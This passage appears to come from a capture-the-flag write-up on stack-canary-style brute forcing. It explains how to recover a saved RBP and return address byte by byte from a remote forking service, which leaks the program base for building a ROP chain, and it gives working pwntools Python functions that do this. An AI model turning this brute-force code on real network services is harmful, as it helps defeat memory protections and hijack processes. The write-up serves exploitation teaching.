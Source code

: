 #### Brute Force RBP and Return

I can use almost the exact same tactic to brute force the next two words. The return value will be particularly useful, as it will give me a leak to calculate the memory space for the program, so I can use rop gadgets from it.

There is an additional challenge with these two. What if there are more than one byte that makes them valid? This really only applies to the low byte. But think about the return address. If it returns one instruction later, will it crash? Not necessarily. To get around this, I’ll hardcode the least significant byte for the return address. For RBP, I don’t really care, since any working value will allow me to overwrite it, and I’m not going to use the address for any calculations.

#### Code

My code for this brute force looks like this:

```

def get_next_byte(s, r):

    for i in r:
        p = remote(host,port)
        p.recvuntil("Please enter the message you want to send to admin:\n")
        try:
            p.send(s + i.to_bytes(1,'big'))
            p.recvuntil('Done.', timeout=2)
            p.close()
            return i.to_bytes(1,'big')
        except EOFError:
            p.close()
    import pdb   # Shouldn't get here
    pdb.set_trace()
    print("Failed to find byte")

def brute_word(buff, num_bytes, obj, assumed=b''):

    start = time.time()
    result = assumed
    with log.progress(f'Brute forcing {obj}') as p:
        for i in range(num_bytes):
            current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
            p.status(f'Found {len(result)} bytes: {current}')
            byte = None
            context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
            while byte == None:          # If no byte found, over range again
                byte = get_next_byte(buff + result, range(0,255))
            result = result + byte
            context.log_level = 'info'   # Re-enable logging
        p.success(f'Finished in {time.time() - start:.2f} seconds')

    log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
    return result

```
